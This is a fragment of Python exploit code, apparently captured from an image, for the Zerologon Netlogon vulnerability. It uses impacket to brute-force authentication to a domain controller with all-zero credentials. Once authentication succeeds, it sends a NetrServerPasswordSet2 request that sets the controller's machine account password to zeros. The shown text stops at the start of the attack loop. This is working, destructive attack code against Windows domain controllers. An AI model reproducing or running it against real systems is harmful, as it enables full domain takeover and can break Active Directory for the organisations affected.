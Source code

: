 ```python
# Give up brute-forcing after this many attempts. If vulnerable, 256 attempts are expected to be neccessary on average.
MAX_ATTEMPTS = 2000 # False negative chance: 0.04%

def fail(msg):
  print(msg, file=sys.stderr)
  print('This might have been caused by invalid arguments or network issues.', file=sys.stderr)
  sys.exit(2)

def try_zero_authenticate(dc_handle, dc_ip, target_computer):
  # Connect to the DC's Netlogon service.
  binding = epm.hept_map(dc_ip, nrpc.MSRPC_UUID_NRPC, protocol='ncacn_ip_tcp')
  rpc_con = transport.DCERPCTransportFactory(binding).get_dce_rpc()
  rpc_con.connect()
  rpc_con.bind(nrpc.MSRPC_UUID_NRPC)

  # Use an all-zero challenge and credential.
  plaintext = b'\x00' * 8
  ciphertext = b'\x00' * 8

  # Standard flags observed from a Windows 10 client (including AES), with only the sign/seal flag disabled. 
  flags = 0x212fffff

  # Send challenge and authentication request.
  nrpc.hNetrServerReqChallenge(rpc_con, dc_handle + '\x00', target_computer + '\x00', plaintext)
  try:
    server_auth = nrpc.hNetrServerAuthenticate3(
      rpc_con, dc_handle + '\x00', target_computer + '$\x00', nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel,
      target_computer + '\x00', ciphertext, flags
    )

    
    # It worked!
    assert server_auth['ErrorCode'] == 0
    newPassRequest = nrpc.NetrServerPasswordSet2()
    newPassRequest['PrimaryName'] = dc_handle + '\x00'
    newPassRequest['AccountName'] = target_computer + '$\x00'
    newPassRequest['SecureChannelType'] = nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel
    auth = nrpc.NETLOGON_AUTHENTICATOR()
    auth['Credential'] = b'\x00' * 8
    auth['Timestamp'] = 0
    newPassRequest['Authenticator'] = auth
    newPassRequest['ComputerName'] = target_computer + '\x00'
    newPassRequest['ClearNewPassword'] =  b'\x00' * 516
    rpc_con.request(newPassRequest)
    return rpc_con

  except nrpc.DCERPCSessionError as ex:
    # Failure should be due to a STATUS_ACCESS_DENIED error. Otherwise, the attack is probably not working.
    if ex.get_error_code() == 0xc0000022:
      return None
    else:
      fail(f'Unexpected error code from DC: {ex.get_error_code()}.')
  except BaseException as ex:
    fail(f'Unexpected error: {ex}.')


def perform_attack(dc_handle, dc_ip, target_computer):
  # Keep authenticating until succesfull. Expected average number of attempts needed: 256.
  print('Performing authentication attempts...')
```